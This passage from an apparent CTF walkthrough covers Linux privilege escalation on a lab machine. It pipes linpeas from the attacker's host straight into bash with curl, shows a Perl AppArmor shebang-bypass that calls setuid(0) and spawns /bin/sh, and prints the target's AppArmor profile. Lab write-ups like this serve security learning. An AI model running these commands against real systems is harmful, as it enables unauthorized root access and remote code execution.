 I tried uploading linpeas but I got permission denied, so I just piped it to bash

```bash
curl 10.10.10.10/linpeas.sh|bash
```

![linpeas](4.png)

We found an unknown binary with SUID bit.

We also see the apparmor is running which is likely to be the reason I wasn't able to upload linpeas.

![apparmor](5.png)

Searching for ways to bypass apparmor I found this trick on [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass).

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

I wasn't able to write to /tmp. We can check the rules at `/etc/apparmor.d/usr.sbin.ash` because the shell we are using is `/usr/sbin/ash`

```terminal
think@publisher:/etc/apparmor.d$ cat usr.sbin.ash
#include <tunables/global>                                                                                                                                                                                         
                                                                                                                                                                                                                   
/usr/sbin/ash flags=(complain) {                                                                                                                                                                                   
  #include <abstractions/base>                                                                                                                                                                                     
  #include <abstractions/bash>      
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>
                                                                                                                                                                                                                   
  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}

```
